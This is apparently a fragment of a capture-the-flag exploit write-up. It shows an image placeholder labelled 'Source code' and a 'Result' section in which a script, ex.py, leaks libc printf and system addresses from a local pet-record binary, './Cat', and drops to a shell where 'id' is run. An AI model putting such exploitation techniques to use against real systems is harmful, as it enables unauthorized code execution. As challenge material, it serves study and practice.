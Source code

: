## Result
```
$ python ex.py 
[+] Starting local process './Cat': pid 28139
[*] printf = 0x7ffff7a62800
[*] system : 0x7ffff7a52390
[*] Switching to interactive mode
edit id 8
------------------------------------------------
 1: create pet record
 2: edit pet record
 3: print record
 4: print all record
 5: delete record
 6: exit
------------------------------------------------
which command?
> $ sh
$ id
uid=1000(delspon) gid=1000(delspon) groups=1000(delspon),33(www-data)
```